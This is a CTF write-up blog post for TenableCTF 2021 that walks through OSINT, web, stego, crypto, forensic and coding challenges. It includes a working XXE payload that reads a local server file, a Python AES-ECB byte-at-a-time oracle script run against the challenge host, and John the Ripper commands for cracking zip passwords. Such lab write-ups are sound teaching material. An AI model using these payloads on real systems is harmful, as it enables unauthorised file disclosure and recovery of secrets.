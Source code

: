 ```yaml
---
title: "CTF - TenableCTF 2021"
categories: [ctf]
date: 2021-02-20
comments: true
image: /images/writeups/TenableCTF/logo.png
description: CTF - TenableCTF 2021
---
```


# TenableCTF 2021

<p align="center">
  <img src="/images/writeups/TenableCTF/logo.png" width="300"/>
</p>

I participate in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges!

<p align="center">
  <img src="/images/writeups/TenableCTF/rank.png" width="500"/>
</p>

---

### OSINT

- [We're watching you](#we-re-watching-you)

### Web

- [Send A Letter](#send-a-letter)
- [Follow The Rabbit Hole](#follow-the-rabbit-hole)

### Misc

- [Broken QR](#broken-qr)
- [Find the encoding](#find-the-encoding)
- [Forwards from Grandma](#forwards-from-grandma)

### Stego

- [Numerological](#numerological)
- [Secret Images](#secret-images)
- [Weird Transmission](#weird-transmission)
- [A3S Turtles](#a3s-turtles)

### Crypto

- [Easy Peasy](#easy-peasy)
- [Netrunner Encryption](#netrunner-encryption)

### Forensic

- [H4ck3R_m4n exp0sed! 2](#h4ck3r-m4n-exp0sed-2)
- [H4ck3R_m4n exp0sed! 3](#h4ck3r-m4n-exp0sed-3)

### Code

- [Short and sweet](#short-and-sweet)
- [Find largest triangle](#find-largest-triangle)
- [Parsey Mcparser](#parsey-mcparser)


---

# OSINT

##  We re watching you
75

NOTE: Our chat bot will not help you with this challenge. Please do not use it for this ctf!

The challenge shows a Peekaboo gif with a KPop artist. RazviOverflow went over that track and found nothing. Tenable discovered a vulnerability and they called it Peekaboo, that could be a great place to work on. 

We can visited their blog post:

https://www.tenable.com/blog/peekaboo

And look over different related pages until the flag showed up on one of them:

https://www.tenable.com/security/research/tra-2018-25

<p align="center">
  <img src="/images/writeups/TenableCTF/OSINT/1_flag.png" width="50%"/>
</p>


---

# Web

## Send A Letter
50

There is a web app at http://challenges.ctfd.io:30471/. Find the vulnerability, exploit it, and recover the flag.

We can see an strange encoding on the XML. Googling for it I found XXE vulnerability on [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)\_Processing).

We can use one of the templated to speed up the attack.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///tmp/messages_outbound.txt" >]>
<letter><name>&xxe;</name></letter>
```

We can use [URL Encoder](https://www.urlencoder.org/) and Burp to repeat the attack:

<p align="center">
  <img src="/images/writeups/TenableCTF/Web/XXE/1_flag.png" width="50%"/>
</p>

```
%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%0A%3C%21DOCTYPE%20foo%20%5B%0A%20%20%20%3C%21ELEMENT%20foo%20ANY%20%3E%0A%20%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%20%22file%3A%2F%2F%2Ftmp%2Fmessages_outbound.txt%22%20%3E%5D%3E%0A%3Cletter%3E%3Cname%3E%26xxe%3B%3C%2Fname%3E%3C%2Fletter%3E
```

``` flag{xxe_aww_yeah} ```


##  Follow The Rabbit Hole
100

Follow the rabbit hole and get the flag.

http://167.71.246.232/

We get into a website with the following URL and this content:

```
http://167.71.246.232:8080/rabbit_hole.php?page=cE4g5bWZtYCuovEgYSO1
[513, '71'] 4O48APmBiNJhZBfTWMzD

http://167.71.246.232:8080/rabbit_hole.php?page=4O48APmBiNJhZBfTWMzD
[803, 'A5'] dUfob5k9t2vH1dVEU9bU

http://167.71.246.232:8080/rabbit_hole.php?page=dUfob5k9t2vH1dVEU9bU
[371, '08'] EiFCRRS86AT19seqH1ls
...
```

We have like a flow of URLs and and array with an int and a string. Let's make an script to retrieve all the URLs and also the content of the HTML. After messing around with the messages I though that the first array could be a key:value pair:

{% highlight python%}
	import requests
	import re
	import json

	url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
	path = 'cE4g5bWZtYCuovEgYSO1'
	exp = r"\[([\d]+), '([\w]+)'\]\n.(.*)"
	array = {}
	paths = []

	i = 0

	while True:
		try:
			r = requests.get(url+path)
			print(r.text)
			
			content = re.search(exp, r.text)
			array[content.group(1)] = content.group(2)
			path = content.group(3)
			i += 1
			print(i)
		except AttributeError:
			break
		except Exception:
			break

	with open('result.json', 'w') as out_file:
		json.dump(array, out_file, indent=4, sort_keys=True)	

	with open('paths.json', 'w') as out_file:
		json.dump(paths, out_file, indent=4)
{% endhighlight %}

To follow the current approach I set the key as the order in a string and merge the values in order with the following code:

{% highlight python%}
import json

with open('result.json', 'r') as in_file:
	arrays = json.load(in_file)

content = []
for i in range(0, len(arrays)):
	content.append(arrays[str(i)])

with open('values.txt', 'w') as out_file:
	out_file.write(''.join(content))
{% endhighlight %}

It seems like hex, so quick check on CyberChef build up an image with the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Web/Follow/1_flag.png" width="50%"/>
</p>

---

# Misc

## Broken QR
100

Can you scan this QR code for me?

We got a broken QR, a quick Paint and some redundancy on the QR code maybe will do the job.

<p align="center">
  <img src="/images/writeups/TenableCTF/Misc/BrokenQR/qr_fix.png" width="40%"/>
</p>

<p align="center">
  <img src="/images/writeups/TenableCTF/Misc/BrokenQR/flag.jpeg" width="40%"/>
</p>

``` flag{d4mn_it_w0nt_sc4n} ```


## Find the encoding
50

DeZmqMUkDJceycJHJPzZet

With the magic function on [CyberChef](https://gchq.github.io/CyberChef/), we can see the base58 as recommended encoding.

``` flag{not_base64} ```


## Forwards from Grandma
100

My grandma sent me this email, but it looks like there's a hidden message in it. Can you help me figure it out?

We have an email with the following subject, which is suspicious:

```
FWD: FWD: RE: FWD:  FWD: RE: FWD: FWD:  FWD: RE:  RE: RE: FWD: { FWD: FWD:  FWD: FWD: RE: RE: FWD: RE:  RE: RE:  FWD: FWD:  FWD: FWD: FWD:  FWD: FWD: FWD:  FWD: FWD: RE: RE: FWD: RE:  FWD: RE:  RE: RE: RE:  FWD: RE: FWD: FWD: } THIS IS HILARIOUS AND SO TRUE
```

```
Let's sustitute the FWD and RE for dot and dash respectively:
FWD: .
RE: -

..-. .-.. .- --. {.. ..--.- -- .. ... ... ..--.- .- --- .-.. } 
```

Decode morse code:

``` flag{I_MISS_AOL} ```

---

# Stego

##  Numerological
100

While working on his latest historical fact book, Don Beige came across a weird group of monks whose only communication with one another was to message the same picture back and forth.

Don thinks there must be something more going on and grabbed a sample.

Can you help him solve this case?


We got an image:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/shield.png" width="40%"/>
</p>

By using binwalk we retrieve another image:

``` binwalk -M --dd=.* shield.png ```

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/monk.png" width="50%"/>
</p>

Seems like Cisternian numbers. Let's use [dcode](https://www.dcode.fr/cistercian-numbers) to retrieve the numbers. Remember that to introduce the input on dcode website, we have to start from the bottom left corner to bottom right, then top left and finally top right.

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/numbers.png" width="50%"/>
</p>

3637 3639 3734 3265 3639 3666 3266 3461 3734 3461 3631 3538

363736393734326536393666326634613734346136313538

Decode Hex > Decode Hex > git.io/JtJaX

On that git post we can find the flag:

``` flag{th0s3_m0nk5_w3r3_cl3v3r} ```

## Secret Images

The challenge provide us two images:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/crypted1.png" width="40%"/>
</p>
<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/crypted2.png" width="40%"/>
</p>

We can see differences on both images. I created a python script to change to black pixels that are within a range of difference.

{% highlight python %}

from PIL import Image

def difference(pix1, pix2):
	suma = 0
	for i in range(0,2):
		suma += pix1[i] - pix2[i]
	return suma

im = Image.open('crypted1.png')
im2 = Image.open('crypted2.png')

black = 0
red = 0

width, height = im.size

for x in range(0,width):
	for y in range(0,height):
		current_color = im.getpixel((x,y))
		current_color2 = im2.getpixel((x,y))

		if difference(current_color,current_color2) > 2:
			im2.putpixel((x,y), (0, 0, 0, 255))

im2.show() 

{% endhighlight %}

We can barely see the flag. Watch out, you might get blind looking for the flag.

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/1_flag.png" width="50%"/>
</p>

``` flag{otp_reuse_fail} ```


##  Weird Transmission
175

There seems to be this weird extraterrestrial communication broadcast in our discord. Can you help us decode it?

Seems like SSTV signal. Redirect the output from the audio into a virtual sound card and use RX SSTV program to decode it. It seems like it's cut out and I found no way to get the original resolution. With Scotie 1 that's all I could get and filling with the flag prefix will do the job:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Weird/1_flag.jpg" width="50%"/>
</p>

``` flag{Noah_th3_s4vi0ur} ```


## A3S Turtles
250

Turtles all the way down.


We got a zip with password, let's use JohnTheRipper to retrieve the password:

```
kali@kali:/opt/john/john/run$ ./zip2john ~/Desktop/CTFs/Tenable/Stego/Turtle/turtles128.zip > ~/Desktop/CTFs/Tenable/Stego/Turtle/zip.hashes
ver 2.0 turtles128.zip/turtles127.zip PKZIP Encr: cmplen=19073, decmplen=19051, crc=CBB89A0B type=8
kali@kali:/opt/john/john/run$ ./john ~/Desktop/CTFs/Tenable/Stego/Turtle/zip.hashes
Proceeding with incremental:ASCII
0                (turtles128.zip/turtles127.zip)
```

First password is 0, then a new zipfile showed up:

```
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with incremental:ASCII
0                (turtles127.zip/turtles126.zip)
```

Then other zip, now with password 1:

```
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
1                (turtles126.zip/turtles125.zip)
```

Maybe a binary sequence??

I have developed the following bash script to get all the zips out and retireve the inner file and the sequence suposing that there would be 127 zips:

{% highlight bash %}
#!/bin/bash

filename=$1
x=0
arr=()
while [ $x -le 127 ]
do
	echo "$filename"
	file $filename | grep "zip"
	if [ "$?" -eq "0" ]
	then
		echo "Unzipping $filename"
		
		if unzip -P "0" $filename ; then
		    arr+=(0)
		else
		    unzip -P "1" $filename
		    arr+=(1)
		fi

		rm $filename
		filename=$(ls *zip)
		x=$(( $x + 1 ))
	fi
done
echo ${arr[@]}
{% endhighlight %}

The binary output of all the passwords were:

```
00111101110010010000011011110110100100101000111011101000100000101100110010110001101110001011110111010001010010101010001001001100
```

Also at the end of the zips we found a **key.png** file with the following text:

```
ed570e22d458e25734fc08d849961da9
```

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Turtle/key.png" width="40%"/>
</p>

Seems like it has no flag at all, no hexdump or base64 from it. I'm stucked at the moment.

Going back to the challenge and the information I had the following clues: First, the title is a3s, which can be AES cipher (?). Second, the name of th file within the zips: **key.png** that provides a 32 bytes key. I digged until I found a way to operate the algorithm and extract the flag:

From the 128 bits message I obtained 32 bytes, converting the binary into hexadecimal:

``` 3dc906f6928ee882ccb1b8bdd14aa24c ```

Now we don't have any clue about an Initialization Vector (IV) needed on some of the AES operation modes, so we can think about Electronic CodeBook (ECB) which doesn't need IV. And looks like we got the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Turtle/1_flag.jpg" width="50%"/>
</p>

---

# Crypto

## Easy Peasy
50

Find the flag here:

NzMgNzkgNmUgNzQgN2IgNzAgNjIgNjEgNzQgNjUgNmUgNjcgNjYgNWYgNmMgNjIgNjggNWYgNzQgNjIgNjcgNWYgN2EgNzIgN2Q=

- First base64:

73 79 6e 74 7b 70 62 61 74 65 6e 67 66 5f 6c 62 68 5f 74 62 67 5f 7a 72 7d

- Convert into ASCII:

synt{pbatengf_lbh_tbg_zr}

- ROT13:

```flag{congrats_you_got_me}```


## Netrunner Encryption
200

Take a look at the new encryption tool out that netrunner gonk friends are using:

http://167.71.246.232:8080/crypto.php

We can find the server encription method. We can see that the server uses AES with ECB mode, which we know it to be vulnerable due to the no usage of IV and there is no randomness derivation over each block encripted. We can see that the server retrieves our input, appends the flag and then it pads until the end of the block:

```
|userinpuuuutttfl| |ag{this_is_a_fla| |g}paddingpadding|
```

{% highlight php %}

<?php

function pad_data($data){
  $flag = "flag{wouldnt_y0u_lik3_to_know}"; 
  #
  $pad_len = (16 - (strlen($data.$flag) % 16));
  return $data . $flag . str_repeat(chr($pad_len), $pad_len);
}

if(isset($_POST["do_encrypt"])){

  $cipher = "aes-128-ecb";
  $iv  = hex2bin('00000000000000000000000000000000');
  $key = hex2bin('74657374696E676B6579313233343536');
  echo "</br><br><h2>Encrypted Data:</h2>";
  $ciphertext = openssl_encrypt(pad_data($_POST['text_to_encrypt']), $cipher, $key, 0, $iv); 

  echo "<br/>";
  echo "<b>$ciphertext</b>";
}
?>

{% endhighlight %}

I could implement the PHP AES algorithm to guess the flag, but I went against the server. I have implemented the following python algorithm to go over every character and guess it using the characters that could be on the flag. A great explanation can be found on [Zach Grace post](https://zachgrace.com/posts/attacking-ecb/).

{% highlight python %}
mport requests
import base64
import re
import time
import string

# 74657374696E676B6579313233343536 = testingkey123456

def send_data(input_text):

	data1 = {
		'text_to_encrypt':input_text,
		'do_encrypt':'Encrypt'
	}

	r = requests.post('http://167.71.246.232:8080/crypto.php', data=data1)

	regex = r'<b>(.*)<\/b>'
	base = re.search(regex, r.text)

	base64_message = base64.b64decode(base.group(1))

	return base64_message


def get_payload_len():
	# |aaaaaflag{bbbbbb| |bbbbbbbbbbbbbbbb| |bbbbbbbbbbbbbbbb| |}padpadpadpadpad| 

	payload_len = 0

	for i in range(0, 32):

		send = 'a'*i
		print(send)
		time.sleep(0.5)

		recv_data = send_data(send)

		# Get first data length
		if i == 0:
			recv_data_len = len(recv_data)

		if recv_data_len != len(recv_data):
			block_size = len(recv_data) - recv_data_len
			payload_len = len(recv_data) - len(send) - block_size-1
			break

		print(len(send), len(send_data(send)))

	print('Payload length: {}\nBlock size: {}'.format(payload_len, block_size))



def attack(block_size=16, payload_size=41):

	# The flag is composed of lowercase, numbers and underscore
	chars = '_' + string.ascii_lowercase + string.digits + '{' + '}'

	# We know that the flag starts like this, so we can save those requests
	flag = [char for char in 'flag{']
	counter = len(flag) + 1

	for n in range(0, payload_size):

		# We send 16 + 10 'a' so the server fills with flag{X:
		# aaaaaaaaaaaaaaaa aaaaaaaaaa
		# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{X
		
		send = 'a' * ((block_size*2)-counter)

		# The server will encrypt the part of the flag. We save it for latter. 
		recv_data = send_data(send)		
		print(send)
		time.sleep(1)

		for ch in chars:

			# We recreate the payload 
			
			# aaaaaaaaaaaaaaaa aaaaaaaaaa
			ls = ['a' for i in range((block_size*2)-counter)]

			# Append the flag that we have:
			# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{
			ls.extend(flag)

			# Append the guessed char:
			# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{a
			ls.append(ch)
			send = ''.join(ls)
			print(send)

			# We receive the ciphertext from our guess
			recv_data2 = send_data(send)

			# Check if the guess is the same as the previous server encription
			if recv_data[:(block_size*2)] == recv_data2[:(block_size*2)]:
				
				flag.append(ch)
				counter = len(flag) +1
				print('flag: {}'.format(''.join(flag)))
				break

attack()
{% endhighlight %}

``` flag{b4d_bl0cks_for_g0nks} ```

---

# Forensic

## H4ck3R_m4n exp0sed! 2
25

I got this packet capture with some of the notorious h4ckerm4n's secret information.

The flag for this challenge should make my boss angry.


A pcapng file is provided. First impressions showed an FTP file transmission. To retrieve the **supersecure.7z** file, go to any of the packets in the stream, right click Follow > Follow TCP Stream:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_ftp.png" width="50%"/>
</p>

We can see the data in ASCII of the 7z file:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_follow.png" width="50%"/>
</p>

Now, to save it, select the raw at the menu and save it with whatever name:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_save.png" width="40%"/>
</p>

The 7z file has a password. looking back into the FTP session, we can see at the beginning that the attacker used **hunter2** as password, but didn't work as password for the 7z:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_pass.png" width="40%"/>
</p>

Let's crack it with JohnTheRipper:
Since 7z2john is written on perl on the official repo, I had to install it:

```
sudo apt install libcompress-raw-lzma-perl -y
```

I was too greedy on the cracking stage. While crcking I inspected the pcapng file and found the password ^^'

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_password.png" width="50%"/>
</p>

Within there are 2 files, one of them is a PNG, showing the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/pickle_nick.png" width="40%"/>
</p>

``` flag{pickl3_NIIICK} ```


## H4ck3R_m4n exp0sed! 3
50

I got this packet capture with some of the notorious h4ckerm4n's secret information.

The flag for this challenge should give you unrealistic expectations.

On the previous 7z file, there were 2 files, one of them a PNG and the other a plain text document. The content seens to be hexadecimal:

```
6a 7a 34 73 7a 51 71 34 53 73 76 75 68 42 41 67 43 6c 75 57 76 48 62 34 71 66 49 49 64 56 34 4d 72 38 38 48 62 51 66 43 76 47 2f 49 38 48 76 54 32 58 73 65 42 42 4c 38 49 6e 79 4e 4c 38 62 44 ...
```

We end up with a base64 string:

```
/9j/4AAQSkZJRgABAQAASABIAAD/4QBYRXhpZgAATU...
```

Then, a familiar file header showed up:

```
ÿØÿà
```

Seems like a JPEG:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/flag.jpeg" width="50%"/>
</p>

```flag{20_minute_adventure}```

---

# Code

## Short and sweet

Below is some code that reads integers from stdin and pases a list of them to a function named "AreNumbersEven". Implement the "AreNumbersEven" function.
This function takes a list of integers and returns a boolean list: True if number was even, and False if odd.
If implemented right, the attached code will print the answer returned from your function.
stdin example:
66 0 -47 
stdout example:
[True, True, False] 

{% highlight python %}

def AreNumbersEven(numbers):
	#impliment here
	booleans = []
	for num in numbers:
		booleans.append(num%2==0)
	# Read space delimited integers from stdin and 
	# pass a list of them to AreNumbersEven()
	return booleans
numbers = raw_input()
integer_list = [int(i) for i in numbers.split(' ')]
even_odd_boolean_list = AreNumbersEven(integer_list)
print even_odd_boolean_list

{% endhighlight %}


## Find largest triangle

{% highlight python %}

# points is a list of 3D points
# ie: [[2, 9, -15], [0, 33, -20], ...]
from itertools import combinations

# Can use this function instead of combinations
def combine(lst, n): 
      
    if n == 0: 
        return [[]] 
      
    l =[] 
    for i in range(0, len(lst)): 
          
        m = lst[i] 
        remLst = lst[i + 1:] 
          
        for p in combine(remLst, n-1): 
            l.append([m]+p) 
              
    return l

#determinant of matrix a
def det(a):
    return a[0][0]*a[1][1]*a[2][2] + a[0][1]*a[1][2]*a[2][0] + a[0][2]*a[1][0]*a[2][1] - a[0][2]*a[1][1]*a[2][0] - a[0][1]*a[1][0]*a[2][2] - a[0][0]*a[1][2]*a[2][1]

#unit normal vector of plane defined by points a, b, and c
def unit_normal(a, b, c):
    x = det([[1,a[1],a[2]],
             [1,b[1],b[2]],
             [1,c[1],c[2]]])
    y = det([[a[0],1,a[2]],
             [b[0],1,b[2]],
             [c[0],1,c[2]]])
    z = det([[a[0],a[1],1],
             [b[0],b[1],1],
             [c[0],c[1],1]])
    magnitude = (x**2 + y**2 + z**2)**.5
    return (x/magnitude, y/magnitude, z/magnitude)

#dot product of vectors a and b
def dot(a, b):
    return a[0]*b[0] + a[1]*b[1] + a[2]*b[2]

#cross product of vectors a and b
def cross(a, b):
    x = a[1] * b[2] - a[2] * b[1]
    y = a[2] * b[0] - a[0] * b[2]
    z = a[0] * b[1] - a[1] * b[0]
    return (x, y, z)

#area of polygon poly
def area(poly):
    if len(poly) < 3: # not a plane - no area
        return 0

    total = [0, 0, 0]
    for i in range(len(poly)):
        vi1 = poly[i]
        if i is len(poly)-1:
            vi2 = poly[0]
        else:
            vi2 = poly[i+1]
        prod = cross(vi1, vi2)
        total[0] += prod[0]
        total[1] += prod[1]
        total[2] += prod[2]
    result = dot(total, unit_normal(poly[0], poly[1], poly[2]))
    return abs(result/2)

def FindLargestTriangleArea(points):
  # return largest area
  pass

# Reading space delimited points from stdin
# and building list of 3D points
points_data = raw_input()
points = []
for point in points_data.split(' '):
	point_xyz = point.split(',')
	points.append([int(point_xyz[0]), int(point_xyz[1]), int(point_xyz[2])])

comb = combinations(points, 3)  
areas_list = []
for i in comb:
	area2 = area(list(i))
	areas_list.append(int(round(area2)))
# Compute Largest Triangle and Print Area rounded to nearest whole number
#area = FindLargestTriangleArea(points)
print max(areas_list)

{% endhighlight %}


## Parsey Mcparser

{% highlight python %}
import re

def ParseNamesByGroup(blob, group_name):
	
	group_regex = r'\["age":(\d*), "user_name":"([\w ]*)", "Group":"([\w ]*)"\]'
	res = re.findall(group_regex, blob)

	group_guys = []
	for i in res:
		if i[2] == group_name:
			group_guys.append(i[1])
			
	return group_guys
   
data = raw_input()
group_name = data.split('|')[0]
blob = data.split('|')[1]

result_names_list = ParseNamesByGroup(blob, group_name)
print result_names_list
{% endhighlight %}


Thanks for reading!
